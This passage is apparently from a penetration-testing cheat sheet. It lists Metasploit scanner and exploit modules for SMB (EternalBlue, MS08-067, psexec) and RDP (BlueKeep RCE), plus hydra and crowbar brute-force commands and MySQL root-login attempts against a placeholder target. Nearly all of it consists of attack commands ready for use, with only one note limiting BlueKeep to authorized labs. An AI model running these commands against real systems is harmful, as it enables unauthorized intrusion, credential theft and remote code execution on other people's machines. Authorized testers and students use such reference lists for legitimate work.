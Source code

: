 #### Metasploit
```ruby
# Vulnerability scanners
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb2
use auxiliary/scanner/smb/smb_ms17_010

# Exploits
use exploit/windows/smb/ms17_010_eternalblue
use exploit/windows/smb/ms08_067_netapi
use exploit/windows/smb/ms17_010_psexec

# Post-exploitation
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/admin/smb/psexec_command
```

### 🖥️ RDP (3389)

#### Enumeration
```bash
# RDP detection and enumeration
nmap --script rdp-enum-encryption,rdp-vuln-ms12-020 -p 3389 <target>
rdesktop -A <target>
```

#### Attacks
```bash
# Brute force
hydra -L users.txt -P passwords.txt rdp://<target>
crowbar -b rdp -s <target>/32 -u admin -C passwords.txt

# BlueKeep exploitation (CVE-2019-0708)
# Extremely dangerous - use only in authorized labs
```

#### Metasploit
```ruby
use auxiliary/scanner/rdp/rdp_login
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

### 🗄️ Database Services

#### MySQL (3306)
```bash
# Enumeration
nmap --script mysql-info,mysql-vuln-cve2012-2122 -p 3306 <target>

# Connection attempts
mysql -h <target> -u root -p
mysql -h <target> -u root # No password

# Brute force
hydra -L users.txt -P passwords.txt mysql://<target>
```
